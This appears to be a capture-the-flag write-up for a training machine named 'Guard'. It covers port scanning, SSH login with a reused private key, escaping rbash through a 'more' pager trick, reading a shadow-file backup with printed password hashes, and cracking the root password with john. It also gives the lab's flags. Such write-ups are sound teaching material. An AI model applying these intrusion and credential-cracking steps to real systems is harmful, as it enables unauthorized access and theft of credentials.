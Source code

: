 # Starting Point - Guard

## Enumeration

```
rustscan 10.10.10.50 -- -sC -sV -o port_scans

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 2a:64:23:e0:a7:ec:1d:3b:f0:63:72:a7:d7:05:57:71 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCkcOfIguCL3HiluPAL9xLs0SKg0qvvnkO6iBLb/l9rmrN2ECvvce+E8S2gyZdm4pcgOBWfCYrwVPLxvc8nvpPZPSZ1LGfW5eoGwHdklIGAMgD0QtcphvoUuYowb+ZKNoXgq3Cj3EBP49HYHuHdYTQrWkzIJxKcOKQhX6Z4ayJxVL4jwUMKSVmn9kil5LvB4rrQNA4nnhF5F2LgCLBc/3clgwf+gPep6OLq0xuIf5S0bUTKZ/1Okg6dOxcIc2P3SRYxYyhfr8lP8g4/fid2seamTv9rmE3ilQq0iBj4fnVlY5jzI5m6EOGwdM84OiXsJZmHEPDwDcqmaMhYec1U953R
|   256 b3:86:5d:3d:c9:d1:70:ea:d6:3d:36:a6:c5:f2:be:5d (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMX3kqpY2ndXnsNY12RKRvy9tI69L4rrhFk1vims0B37Ju5YZ4Q5N+RV/ts7rvuKwUueCeH0AWEmE9oV3TsSG3k=
|   256 c0:5b:13:0f:d6:e6:d1:71:2d:55:e2:4a:e2:27:0e:c2 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJ9AJZ5v4FPferUM/c7u+T8W9N8zrGAjanwazh65aZnP
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Apparently, only the SSH port is open. As we have no other information given and previous machines have shown, that information from other machines must be re-used, we can try to connect as daniel (as we have his private ssh key).

And it works! We are user `daniel`

```
daniel@guard:~$ id
uid=1000(daniel) gid=1000(picasso) groups=1000(picasso),27(sudo)
```

## Exploitation

Having access to Daniel's home directory, we can directly read the user flag. But hmmm ... somehow `cat` does not give any output. It seems like we have some restrictions. However, `more` works perfectly fine. User flag: `209333652507f89d0d3a41ff4070c081`


Let's look for some privilege escalation!

We start by searching for files with SUID bit set:

```
daniel@guard:~$ find / -perm -u=s -type f 2>/dev/null
-rbash: /dev/null: restricted: cannot redirect output
```

Weird! Something strange is happening with our shell. Let's investigate that.

Looking at the `/etc/passwd` file, we can see that our current user has `rbash` as default shell.

```
daniel:x:1000:1000:picasso:/home/picasso:/bin/rbash
```

As I've personally never heard of it, I must first understand what this is and do some research.

```
RBASH(1)                                                                     General Commands Manual                                                                     RBASH(1)

NAME
       rbash - restricted bash, see bash(1)

RESTRICTED SHELL
       If  bash  is  started  with the name rbash, or the -r option is supplied at invocation, the shell becomes restricted.  A restricted shell is used to set up an environment
       more controlled than the standard shell.  It behaves identically to bash with the exception that the following are disallowed or not performed:

       ·      changing directories with cd

       ·      setting or unsetting the values of SHELL, PATH, ENV, or BASH_ENV

       ·      specifying command names containing /

       ·      specifying a filename containing a / as an argument to the .  builtin command

       ·      specifying a filename containing a slash as an argument to the -p option to the hash builtin command

       ·      importing function definitions from the shell environment at startup

       ·      parsing the value of SHELLOPTS from the shell environment at startup

       ·      redirecting output using the >, >|, <>, >&, &>, and >> redirection operators

       ·      using the exec builtin command to replace the shell with another command

       ·      adding or deleting builtin commands with the -f and -d options to the enable builtin command

       ·      using the enable builtin command to enable disabled shell builtins

       ·      specifying the -p option to the command builtin command

       ·      turning off restricted mode with set +r or set +o restricted.

       These restrictions are enforced after any startup files are read.

       When a command that is found to be a shell script is executed, rbash turns off any restrictions in the shell spawned to execute the script
```

Apparently, that is some kind of restricted shell, that's highly limiting our functionalities. 

However, it does not prevent us from spawning a bash shell from within another program. I first tried it from within vim/vi, but it's disabled. Then I remembered a cool trick from the [OverTheWire Bandit](https://overthewire.org/wargames/bandit/) Wargame. If you manage to make your terminal as small as possible and open anything with `more`, then you get following:

![](pics/more_trick.png)

From here, you can execute commands as such:

![](pics/command_more.png)

And now we've escaped the rbash environment!

```
daniel@guard:~$ cd ..
daniel@guard:/home$ pwd
/home
daniel@guard:/home$ 
```

(The official writeup does it with the `man man` trick and spawns the bash from within there)

Enumerating the system, I found some interesting backups in the `/backups` directory, namely a backup of the shadow file, for which we have read permissions.

```
root:$6$KIP2PX8O$7VF4mj1i.w/.sIOwyeN6LKnmeaFTgAGZtjBjRbvX4pEHvx1XUzXLTBBu0jRLPeZS.69qNrPgHJ0yvc3N82hY31:18334:0:99999:7:::
daniel:$6$2EEJjgy86KrZ.cbl$oCf1MzIsN7N9KziBNo7uYrHLueZLM7wySrsFYxlNtO5NVhfVsyWCSKiIURNUxOOwC0tm1kyQsiv93imCwLM0k1:18326:0:99999:7:::
```

Let's copy it to our local machine and let `john` try to crack the passwords for daniel, or in the best case for root. If we get the password for daniel, then we can atleast check if he is on the sudoers list and can execute some helpful commands that we can exploit to gain root privileges.

But it's better than we thought. John is successful in cracking the root password!

```
$ john shadow -w=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Press 'q' or Ctrl-C to abort, almost any other key for status

password#1       (root)
```

Now we can log in as root and obtain the root flag.

Root flag: `386ca63de3e5fd7df6b6212a0430f681`